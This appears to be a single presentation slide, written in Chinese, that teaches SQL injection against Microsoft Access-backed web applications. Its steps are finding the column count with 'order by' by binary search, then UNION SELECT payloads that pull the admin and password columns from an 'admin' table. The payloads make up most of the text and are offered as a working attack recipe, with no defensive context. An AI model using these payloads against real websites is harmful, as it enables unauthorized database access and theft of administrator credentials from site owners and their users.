

# ACCESS 注入
判断字段长度 二分法
order by 20
联合查询
and 1=2 union select 1,2,3,4,5,6,7,8,9 from admin
数据库联合查询
and 1=2 union select 1,2,admin,4,password,6,7,8,9 from admin